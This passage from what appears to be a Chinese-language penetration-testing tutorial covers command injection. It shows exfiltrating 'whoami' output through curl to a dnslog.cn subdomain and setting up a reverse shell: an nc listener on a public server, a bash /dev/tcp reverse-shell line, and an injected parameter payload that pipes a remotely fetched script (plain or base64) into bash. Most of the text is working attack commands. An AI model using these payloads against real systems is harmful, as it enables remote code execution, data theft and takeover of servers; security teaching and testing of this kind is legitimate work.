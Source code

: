 **（2）执行whoami命令**

```php
curl `whoami`.5i03vw.dnslog.cn
```

![image-20211126153822554](image/命令执行/image-20211126153822554.png)

**（3）成功将命令执行结果带出来了**

![image-20211126153709341](image/命令执行/image-20211126153709341.png)



#### 5、反弹shell

* 利用条件：目标服务器可以向可通信的公网服务器发起http请求

```php
#1.首先在公网服务器使用nc命令监听端口
nc -lvp 4444 #或nc -vv -lp 4444

#2.然后在公网服务器上写一个文件(我写入到test文件)，内容是下面命令
bash -i >& /dev/tcp/VPSIP/4444 0>&1

#3.最终浏览器上执行的payload(实际上就是在目标机执行curl VPSIP/test |bash)
cmd=|curl VPSIP/test |bash

第二种方法是将test文件中的内容进行base64编码，然后浏览器上执行payload：cmd=|curl VPSIP/test |base64 |bash)
```
